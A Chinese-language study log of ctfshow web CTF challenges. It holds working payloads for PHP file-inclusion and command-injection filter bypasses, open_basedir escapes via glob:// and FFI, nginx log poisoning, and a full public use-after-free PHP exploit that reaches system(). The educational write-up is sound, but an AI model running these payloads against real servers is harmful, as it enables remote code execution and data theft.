



# 12.2~12.8 WEEK8

## 概况

- 刷ctfshow

## 学习到的新知（包含上周ctfsow）

### Web6:

提示“解压源码到当前目录，测试正常，收工”，所以查看一下www.zip，发现本地得到了一个压缩包，解压得到了index.php源码。

提示flag in fl000g.txt，打开本地的fl000g.txt只有一个假flag，所以在url后加/fl000g.txt得到flag

<!--网站主页源码文件名称为www.zip-->

### Web14:

打开仍然是一个网站服务，dirsearch扫描无事发生，右键和f12也被ban了，只好用view-source看一眼源码。根据提示“有时候源码里面就能不经意间泄露重要(editor)的信息,默认配置害死人”，查一下这个editor，发现一句：

```

```

打开看一下，发现是一张图片。再往前看editor/upload，发现404，在往前看/editor发现是一个可以提交内容的界面

又是乱点一通，发现上传图片时网络图片里有一个图片空间，点开一看，好家伙，网站源码全搁这呢。熟悉的打开var/www/html，发现有个欲盖弥彰的nothinghere，打开看看，果然有个fl000g.txt，url后加/nothinghere/fl000g.txt得到flag

### Web16:

打开是个3D元素周期表，根据提示“对于测试用的探针，使用完毕后要及时删除，可能会造成信息泄露”，鉴于前两天在网上看见过这道题的wp，所以直接看/tz.php，发现PHP相关参数里有个PHPINFO，打开以后ctrlf查找flag

<!--url后缀名添加/tz.php 版本是雅黑PHP探针-->

### Web19:

打开发现是个登录界面，右键查看源码，发现注释里有提示：

```php
$flag="fakeflag"
   $u = $_POST['username'];
   $p = $_POST['pazzword'];
   if(isset($u) && isset($p)){
     if($u==='admin' && $p ==='a599ac85a73384ee3219fa684296eaa62667238d608efa81837030bd1ce1bf04'){
       echo $flag;
     }
 }
```

尝试了一下该账号和密码，登陆不上，再往前看看源码，好像是个AES加密：

```

<script type="text/javascript">

  function checkForm(){

​    var key = "0000000372619038";

​    var iv = "ilove36dverymuch";

​    var pazzword = $("#pazzword").val();

​    pazzword = encrypt(pazzword,key,iv);

​    $("#pazzword").val(pazzword);

​    $("#loginForm").submit();

​    

  }

  function encrypt(data,key,iv) { //key,iv：16位的字符串

​    var key1 = CryptoJS.enc.Latin1.parse(key);

​    var iv1  = CryptoJS.enc.Latin1.parse(iv);

​    return CryptoJS.AES.encrypt(data, key1,{

​      iv : iv1,

​      mode : CryptoJS.mode.CBC,

​      padding : CryptoJS.pad.ZeroPadding

​    }).toString();

  }
```



解密得到密码：i_want_a_36d_girl，登录得到flag

### Web23：

打开一看是一段代码：

```php
<?php 

/* 

\# -*- coding: utf-8 -*- 

\# @Author: h1xa 

\# @Date:  2020-09-03 11:43:51 

\# @Last Modified by:  h1xa 

\# @Last Modified time: 2020-09-03 11:56:11 

\# @email: h1xa@ctfer.com 

\# @link: https://ctfer.com 

*/ 

error_reporting(0); 

include('flag.php'); 

if(isset($_GET['token'])){ 

  $token = md5($_GET['token']); 

  if(substr($token, 1,1)===substr($token, 14,1) && substr($token, 14,1) ===substr($token, 17,1)){ 

​    if((intval(substr($token, 1,1))+intval(substr($token, 14,1))+substr($token, 17,1))/substr($token, 1,1)===intval(substr($token, 31,1))){ 

​      echo $flag; 

​    } 

  } 

}else{

  highlight_file(__FILE__); 

} 

?> 
```

审计代码，发现token的MD5的第2位等于第15位且15位等于第18位，第2位加15位加18位除以第2位等于第32位。

试着写了一个脚本，但不知道为什么一直跑不出结果，看了一下别人的脚本，才发现自己没有判断第2位和第32位是数字，导致无法完成第二层if判断

最终脚本：

```python
import hashlib

for i in range(1,1000):

  md5 = hashlib.md5(str(i).encode('utf-8')).hexdigest()

  if md5[1] != md5[14] or md5[14]!= md5[17]:

​    continue

  if(ord(md5[1]))>=48 and ord(md5[1])<=57 and (ord(md5[31]))>=48 and ord(md5[31])<=57:

​    if((int(md5[1])+int(md5[14])+int(md5[17]))/int(md5[1])==int(md5[31])):

​      print(i)
```

结果为i=422

hackbar传参?token=422,得到flag

### Web24：

打开还是一段代码：

```php
error_reporting(0);

include("flag.php");

if(isset($_GET['r'])){

  $r = $_GET['r'];

  mt_srand(372619038);

  if(intval($r)===intval(mt_rand())){

​    echo $flag;

  }

}else{

  highlight_file(__FILE__);

  echo system('cat /proc/version');

}
```

审计代码，当r等于mt_srand(372619038)生成的随机数时返回flag，bing一下，发现这个mt_srand有种子372619038存在，所以它其实是伪随机。在php指南学一下该函数，仿照示例写一个简单的代码：

```php
<?php

mt_srand(372619038);

echo(mt_rand());

?>
```

发现跑出来的结果是1155388967

hackbar上传：?r=1155388967得到flag

### Web25：

```php
error_reporting(0);

include("flag.php");

if(isset($_GET['r'])){

  $r = $_GET['r'];

  mt_srand(hexdec(substr(md5($flag), 0,8)));

  $rand = intval($r)-intval(mt_rand());

  if((!$rand)){

​    if($_COOKIE['token']==(mt_rand()+mt_rand())){

​      echo $flag;

​    }

  }else{

​    echo $rand;

  }

}else{

  highlight_file(__FILE__);

  echo system('cat /proc/version');

} 
```

老样子审计代码。这里仍然出现了st_srand函数，其种子为flag参数的MD5值第一位转换为八进制，之后将该数字视为十六位并转换为十进制。

当r减去随机数为0时，且token的值为两个随机数的和时返回flag

因为不清楚flag，所以我们无法判断出种子是什么，但我们可以通过不满足上述条件来反返回rand的值

输入?r=0,rand的值为-1659996040，所以intval(mt_rand())的值为1659996040，用php_mt_seed爆破一下种子

```
time ./php_mt_seed 1659996040
```

结果：

```
Version: 3.0.7 to 5.2.0

Found 0, trying 0x18000000 - 0x1bffffff, speed 1548.7 Mseeds/s 

seed = 0x19e9cbe2 = 434752482 (PHP 3.0.7 to 5.2.0)

seed = 0x19e9cbe3 = 434752483 (PHP 3.0.7 to 5.2.0)

Found 2, trying 0xfc000000 - 0xffffffff, speed 2113.9 Mseeds/s 

Version: 5.2.1+

Found 2, trying 0x0a000000 - 0x0bffffff, speed 23.6 Mseeds/s 

seed = 0x0bf61ada = 200678106 (PHP 7.1.0+)

Found 3, trying 0xa8000000 - 0xa9ffffff, speed 21.9 Mseeds/s 

seed = 0xa9c2d897 = 2848118935 (PHP 7.1.0+)

Found 4, trying 0xb8000000 - 0xb9ffffff, speed 21.3 Mseeds/s 

seed = 0xb8b7e658 = 3099059800 (PHP 5.2.1 to 7.0.x; HHVM)

Found 5, trying 0xc8000000 - 0xc9ffffff, speed 21.3 Mseeds/s 

seed = 0xc8f03c91 = 3371187345 (PHP 5.2.1 to 7.0.x; HHVM)

seed = 0xc8f03c91 = 3371187345 (PHP 7.1.0+)

Found 7, trying 0xfe000000 - 0xffffffff, speed 21.8 Mseeds/s 

Found 7
```

挨个尝试：

```php
<?php

mt_srand(2848118935);

echo intval(mt_rand());

echo '&';

$a=mt_rand()+mt_rand();

echo $a;

?>
```

最终payload：?r=1659996040,token=1774512967

### Web37：

```php
//flag in flag.php

error_reporting(0); 

if(isset($_GET['c'])){ 

  $c = $_GET['c']; 

  if(!preg_match("/flag/i", $c)){ 

​    include($c); 

​    echo $flag; 

  }     

}else{ 

  highlight_file(__FILE__); 

}
```

存在include函数，可以利用伪data伪协议输入命令

将“< ？php system('cat flag.php');?>”转成base64，“PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==”

```php
payloads:

?c=data://text/plain;base64,PD9waHAgc3lzdGVtKCdjYXQgZmxhZy5waHAnKTs/Pg==

或

?c=data://text/plain,<?php system('cat fl*');?>
```

右键查看源码得到flag

###  Web39：

```php
//flag in flag.php

error_reporting(0); 

if(isset($_GET['c'])){ 

  $c = $_GET['c']; 

  if(!preg_match("/flag/i", $c)){ 

​    include($c.".php"); 

  }

​    

}else{ 

  highlight_file(__FILE__); 

}
```

过滤了flag，且include函数会将传入的c参数和.php拼接在一起

payloads：

?c=data://text/plain,<？php system('cat fl*');?>

<!--//?>闭合了前面的php语句，".php"拼接上以后也对前面的php语句没有影响，只会被当成html页面直接显示在页面上-->

### Web42：

```
if(isset($_GET['c'])){ 

  $c=$_GET['c']; 

  system($c." >/dev/null 2>&1"); 

}else{ 

  highlight_file(__FILE__); 

}
```

审计代码，发现system命令中，c参数和”>/dev/null 2>&1“拼接在了一起。

<!--\>/dev/null 2>&1是一个常见的shell命令，其作用是：将程序在后台运行，并将运行结果重定向到/dev/null，因为/dev/null是unix系统上一个特殊的设别文件，它会将写入的内容丢弃，故没有回显。-->

payloads：

?c=ls;

?c=cat flag.php;

右键查看源码得到flag

### Web54：

```php
if(isset($_GET['c'])){ 

  $c=$_GET['c']; 

  if(!preg_match("/\;|.*c.*a.*t.*|.*f.*l.*a.*g.*| |[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\</i", $c)){ 

​    system($c); 

  }

}else{ 

  highlight_file(__FILE__); 

}
```

过滤了分号，cat，tac，flag，空格，数字，*，%，<>······且不能使用反斜杠绕过

payload：

?c=ls

?c=/bin/ca?${IFS}????.php

右键查看源码得到flag

<!--//cat命令所在的路径是/bin/cat-->

<!--bin目录下的命令:-->

<!--cat,cp,chmod df,dmesg,gzip,kill,ls,mkdir,more,mount,rm,su,tar,base64等-->

<!--/usr/bin目录主要放置一些应用软件工具的必备执行档,例:c++、g++、gcc、chdrv、diff、dig、du、eject、elm、free、gnome、 zip、htpasswd、kfm、ktop、last、less、locale、m4、make、man、mcopy、ncftp、 newaliases、nslookup passwd、quota、smb、wget等。-->

### Web55：

```php
// 你们在炫技吗？

if(isset($_GET['c'])){ 

  $c=$_GET['c']; 

  if(!preg_match("/\;|[a-z]|\`|\%|\x09|\x26|\>|\</i", $c)){ 

​    system($c); 

  }

}else{ 

  highlight_file(__FILE__); 

} 
```

过滤了字母，<>，；，%······

因为没有过滤数字，所以我们可以利用某些包含数字的命令，例如bin目录下的base64，usr/bin/目录下的bzip2

Payload1:

?c=/???/????64 ????.???

意思是?c=/bin/base64 flag.php

Base64解码后得到flag

Payload2：

?c=/???/???/????2 ????.???

意思是/usr/bin/bzip2 flag.php，将flag.php文件压缩后下载

访问/flag.php.bz2下载得到flag

### Web56：

```
// 你们在炫技吗？

if(isset($_GET['c'])){ 

  $c=$_GET['c']; 

  if(!preg_match("/\;|[a-z]|[0-9]|\\$|\(|\{|\'|\"|\`|\%|\x09|\x26|\>|\</i", $c)){ 

​    system($c); 

  }

}else{ 

  highlight_file(__FILE__); 

}
```

过滤了字母，数字<>，；，%······,但没有过滤.

网上搜索了一下，发现可以通过.来执行文件里的sh命令， /tmp/php??????（后面6个字母是随生成的大小写）来执行命令

首先通过脚本上传一个php文件，文件内容是：

```
\#! /bin/sh

Ls
```

脚本：

```php+HTML
<!DOCTYPE html>

<html lang="en">

<head>

    <meta charset="UTF-8">

    <meta name="viewport" content="width=device-width, initial-scale=1.0">

  <title>POST数据包POC</title>

</head>

<body>

<form action="http://46230c96-8291-44b8-a58c-c133ec248231.chall.ctf.show/" method="post" enctype="multipart/form-data">

<!--链接是当前打开的题目链接-->

  <label for="file">文件名：</label>

  <input type="file" name="file" id="file"><br>

  <input type="submit" name="submit" value="提交">

</form>

</body>

</html>
```

bp抓包以后构造payload：

?c=.+/???/????????[@-[]

（@-[是linux系统的匹配符，可以匹配大写字母）

之后只需要写入ls，cat /var/www/html/flag.php命令即可得到flag

 参考文章：

https://blog.csdn.net/qq_46091464/article/details/108513145

[无字母数字webshell之提高篇 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)

### Web57：

```php
// 还能炫的动吗？

//flag in 36.php

if(isset($_GET['c'])){ 

  $c=$_GET['c']; 

  if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){ 

​    system("cat ".$c.".php"); 

  }

}else{ 

  highlight_file(__FILE__); 

} 
```

过滤了字母，数字，<>，%······,但没有过滤()，$和~

bing一下：

双小括号 (( )) 是 Bash Shell 中专门用来进行整数运算的命令，它的效率很高，写法灵活，是企业运维中常用的运算命令。 通俗地讲，就是将数学运算表达式放在((和))之间。 表达式可以只有一个，也可以有多个，多个表达式之间以逗号,分隔。对于多个表达式的情况，以最后一个表达式的值作为整个 (( ))命令的执行结果。 可以使用$获取 (( )) 命令的结果，这和使用$获得变量值是类似的。 可以在 (( )) 前面加上$符号获取 (( )) 命令的执行结果，也即获取整个表达式的值。以 c=$((a+b)) 为例，即将 a+b 这个表达式的运算结果赋值给变量 c。 注意，类似 c=((a+b)) 这样的写法是错误的，不加$就不能取得表达式的结果。

$(()) ：代表做一次运算，因为里面为空，也表示值为0

$(( ~$(()) )) ：对0作取反运算，值为-1

$(( $((~$(()))) $((~$(()))) ))： -1-1，也就是(-1)+(-1)为-2，所以值为-2

$(( ~$(( $((~$(()))) $((~$(()))) )) )) ：再对-2做一次取反得到1，所以值为1

故我们在$(( ~$(( )) ))里面放37个$((~$(())))，得到-37，取反即可得到36

脚本：

```
a = "$((~$(())))"    

a37=a*37

print(f"$(( ~$(({a37} )) ))")
```

payload：

?c=$(( ~$(($((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(())))$((~$(()))) )) ))

右键查看源码得到flag

### Web71：

题目附件得到的源码：

```php
error_reporting(0);

ini_set('display_errors', 0);

// 你们在炫技吗？

if(isset($_POST['c'])){

​    $c= $_POST['c'];

​    eval($c);

​    $s = ob_get_contents();

​    ob_end_clean();

​    echo preg_replace("/[0-9]|[a-z]/i","?",$s);

}else{

  highlight_file(__FILE__);

}

?>
```

审计代码，$s = ob_get_contents()用于得到缓冲区的数据。

但ob_end_clean()会清除缓冲区的内容，并将缓冲区关闭，不会输出内容。正则匹配会将缓冲区的数字和字母全部替换成？

可以利用死亡函数，将程序提前结束，不进行正则匹配

payload：

c=var_export(scandir("/")); die();

或

c=var_export(scandir("/")); exit();

c=include("/flag.txt"); exit();

Web72：

题目附件得到的源码和71一样。

输入c=var_export(scandir("/")); die();

得到回显：Warning: scandir(): open_basedir restriction in effect. File(/) is not within the allowed path(s): (/var/www/html/) in /var/www/html/index.php(19) : eval()'d code on line 1

输入：c=var_export(scandir("./")); die();得到正常的数组回显

发现开启了open_basedir，且仅允许访问/var/www/html/目录及其子目录

//open_basedir是php.ini中的一个配置选项，它可将用户访问文件的活动范围限制在指定的区域

因为glob伪协议在筛选目录时不受open_basedir制约，所以可以利用glob://来读取目录

//glob://基本用法：

```php
$a = opendir("glob:///\*");// 用glob打开根目录

while (($file = readdir($a)) !== false) {

  echo $file . "<br>";

};//遍历目录，并输出子目录名和html的换行符

exit();// 终止脚本,跳过正则匹配替换
```

payload：

```
c=$a=opendir("glob:///*"); while (($file = readdir($a)) !== false){echo $file . "<br>"; };exit();
```

根据回显，发现flag在flag0.txt中

根据提示，在网上找了个uaf的脚本，执行ls；cat/flag0.txt命令

将脚本进行url编码后得到payload，bp上传即可得到flag

脚本：

```php
c=?><?php

pwn("ls /;cat /flag0.txt");

 

function pwn($cmd) {

  global $abc, $helper, $backtrace;

  class Vuln {

​    public $a;

​    public function __destruct() { 

​      global $backtrace; 

​      unset($this->a);

​      $backtrace = (new Exception)->getTrace(); # ;)

​      if(!isset($backtrace[1]['args'])) { # PHP >= 7.4

​        $backtrace = debug_backtrace();

​      }

​    }

  }

 

  class Helper {

​    public $a, $b, $c, $d;

  }

 

  function str2ptr(&$str, $p = 0, $s = 8) {

​    $address = 0;

​    for($j = $s-1; $j >= 0; $j--) {

​      $address <<= 8;

​      $address |= ord($str[$p+$j]);

​    }

​    return $address;

  }

 

  function ptr2str($ptr, $m = 8) {

​    $out = "";

​    for ($i=0; $i < $m; $i++) {

​      $out .= sprintf('%c',$ptr & 0xff);

​      $ptr >>= 8;

​    }

​    return $out;

  }

 

  function write(&$str, $p, $v, $n = 8) {

​    $i = 0;

​    for($i = 0; $i < $n; $i++) {

​      $str[$p + $i] = sprintf('%c',$v & 0xff);

​      $v >>= 8;

​    }

  }

 

  function leak($addr, $p = 0, $s = 8) {

​    global $abc, $helper;

​    write($abc, 0x68, $addr + $p - 0x10);

​    $leak = strlen($helper->a);

​    if($s != 8) { $leak %= 2 << ($s * 8) - 1; }

​    return $leak;

  }

 

  function parse_elf($base) {

​    $e_type = leak($base, 0x10, 2);

 

​    $e_phoff = leak($base, 0x20);

​    $e_phentsize = leak($base, 0x36, 2);

​    $e_phnum = leak($base, 0x38, 2);

 

​    for($i = 0; $i < $e_phnum; $i++) {

​      $header = $base + $e_phoff + $i * $e_phentsize;

​      $p_type  = leak($header, 0, 4);

​      $p_flags = leak($header, 4, 4);

​      $p_vaddr = leak($header, 0x10);

​      $p_memsz = leak($header, 0x28);

 

​      if($p_type == 1 && $p_flags == 6) { # PT_LOAD, PF_Read_Write

​        \# handle pie

​        $data_addr = $e_type == 2 ? $p_vaddr : $base + $p_vaddr;

​        $data_size = $p_memsz;

​      } else if($p_type == 1 && $p_flags == 5) { # PT_LOAD, PF_Read_exec

​        $text_size = $p_memsz;

​      }

​    }

 

​    if(!$data_addr || !$text_size || !$data_size)

​      return false;

 

​    return [$data_addr, $text_size, $data_size];

  }

 

  function get_basic_funcs($base, $elf) {

​    list($data_addr, $text_size, $data_size) = $elf;

​    for($i = 0; $i < $data_size / 8; $i++) {

​      $leak = leak($data_addr, $i * 8);

​      if($leak - $base > 0 && $leak - $base < $data_addr - $base) {

​        $deref = leak($leak);

​        \# 'constant' constant check

​        if($deref != 0x746e6174736e6f63)

​          continue;

​      } else continue;

 

​      $leak = leak($data_addr, ($i + 4) * 8);

​      if($leak - $base > 0 && $leak - $base < $data_addr - $base) {

​        $deref = leak($leak);

​        \# 'bin2hex' constant check

​        if($deref != 0x786568326e6962)

​          continue;

​      } else continue;

 

​      return $data_addr + $i * 8;

​    }

  }

 

  function get_binary_base($binary_leak) {

​    $base = 0;

​    $start = $binary_leak & 0xfffffffffffff000;

​    for($i = 0; $i < 0x1000; $i++) {

​      $addr = $start - 0x1000 * $i;

​      $leak = leak($addr, 0, 7);

​      if($leak == 0x10102464c457f) { # ELF header

​        return $addr;

​      }

​    }

  }

 

  function get_system($basic_funcs) {

​    $addr = $basic_funcs;

​    do {

​      $f_entry = leak($addr);

​      $f_name = leak($f_entry, 0, 6);

 

​      if($f_name == 0x6d6574737973) { # system

​        return leak($addr + 8);

​      }

​      $addr += 0x20;

​    } while($f_entry != 0);

​    return false;

  }

 

  function trigger_uaf($arg) {

​    \# str_shuffle prevents opcache string interning

​    $arg = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

​    $vuln = new Vuln();

​    $vuln->a = $arg;

  }

 

  if(stristr(PHP_OS, 'WIN')) {

​    die('This PoC is for *nix systems only.');

  }

 

  $n_alloc = 10; # increase this value if UAF fails

  $contiguous = [];

  for($i = 0; $i < $n_alloc; $i++)

​    $contiguous[] = str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA');

 

  trigger_uaf('x');

  $abc = $backtrace[1]['args'][0];

 

  $helper = new Helper;

  $helper->b = function ($x) { };

 

  if(strlen($abc) == 79 || strlen($abc) == 0) {

​    die("UAF failed");

  }

 

  \# leaks

  $closure_handlers = str2ptr($abc, 0);

  $php_heap = str2ptr($abc, 0x58);

  $abc_addr = $php_heap - 0xc8;

 

  \# fake value

  write($abc, 0x60, 2);

  write($abc, 0x70, 6);

 

  \# fake reference

  write($abc, 0x10, $abc_addr + 0x60);

  write($abc, 0x18, 0xa);

 

  $closure_obj = str2ptr($abc, 0x20);

 

  $binary_leak = leak($closure_handlers, 8);

  if(!($base = get_binary_base($binary_leak))) {

​    die("Couldn't determine binary base address");

  }

 

  if(!($elf = parse_elf($base))) {

​    die("Couldn't parse ELF header");

  }

 

  if(!($basic_funcs = get_basic_funcs($base, $elf))) {

​    die("Couldn't get basic_functions address");

  }

 

  if(!($zif_system = get_system($basic_funcs))) {

​    die("Couldn't get zif_system address");

  }

 

  \# fake closure object

  $fake_obj_offset = 0xd0;

  for($i = 0; $i < 0x110; $i += 8) {

​    write($abc, $fake_obj_offset + $i, leak($closure_obj, $i));

  }

 

  \# pwn

  write($abc, 0x20, $abc_addr + $fake_obj_offset);

  write($abc, 0xd0 + 0x38, 1, 4); # internal func type

  write($abc, 0xd0 + 0x68, $zif_system); # internal func handler

 

  ($helper->b)($cmd);

  exit();

}
```

参考文章：

[Open_basedir绕过 - LLeaves - 博客园 (cnblogs.com)](https://www.cnblogs.com/LLeaves/p/13210005.html)

### Web75：

老样子glob伪协议扫一下目录，输入：

c=$a=opendir("glob:///*"); while (($file = readdir($a)) !== false){echo $file . "<br>"; };exit();

发现存在flag36.txt

查看提示，发现可以利用mysql的load_file函数来查看数据

```php
poc：

try {

  $dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');

  //通过PDO扩展连接mysql数据库

  //数据库主机名是localhost，使用的数据库是ctftraining，用户名和密码是root

  foreach ($dbh->query('select load_file("/flag36.txt")') as $row) {

​    echo ($row[0]) . "|";

  }

  //通过load_file来读取flag36.txt，并回显其结果

  $dbh = null;

} catch (PDOException $e) {

  echo $e->getMessage();

  exit(0);

}

exit(0); 
```

Payload:

c=try {$dbh = new PDO('mysql:host=localhost;dbname=ctftraining', 'root','root');foreach($dbh->query('select load_file("/flag36.txt")') as $row){echo($row[0])."|"; }$dbh = null;}catch (PDOException $e) {echo $e->getMessage();exit(0);}exit(0);

### Web77：

输入：

```
c=$a=opendir("glob:///*"); while (($file = readdir($a)) !== false){echo $file . "<br>"; };exit();得到文件flag36x.txt
```

根据提示，去bing了一下FFI

//PHP外部函数接口（FFI）是 PHP 7.4及以上中的接口，其提供了高级语言直接的互相调用，而对于PHP来说，FFI让我们可以方便的调用C语言写的各种库。

payload：

c=$ffi = FFI::cdef("int system(const char *command);");//创建一个system对象

$a='/readflag > 1.txt';

$ffi->system($a);//调用system函数

查看1.txt得到flag

###  Web80：

```php
if(isset($_GET['file'])){ 

  $file = $_GET['file']; 

  $file = str_replace("php", "???", $file); 

  $file = str_replace("data", "???", $file); 

  include($file); 

}else{ 

  highlight_file(__FILE__); 

}
```

审计代码，php和data都会被替换成???

 方法一：

因为没有检查大小写，所以可以使用大小写绕过

bp抓包发送到repeater修改请求头，用php://input伪协议来执行php代码



send以后发现有个fl0g.php



send以后得到flag

方法二：

Wappalyzer看一眼，发现用的是nginx

//nginx日志文件路径是/var/log/nginx/access.log和/var/log/nginx/error.log

//apache一般是/var/log/apache/access.log

//apache2一般是/var/log/apache2/access.log

//日志文件记录了服务器收到的每一次请求的IP、访问时间、URL、User-Agent，其中User-Agent不会被进行任何二次处理，无论我们发什么内容，服务器都会将其原封不动的写入日志。

Payload:

```
?file=/var/log/nginx/access.log

User Agent:<?php system('ls');?>

User Agent:<?php system('cat fl0g.php');?>
```

右键查看源码得到flag

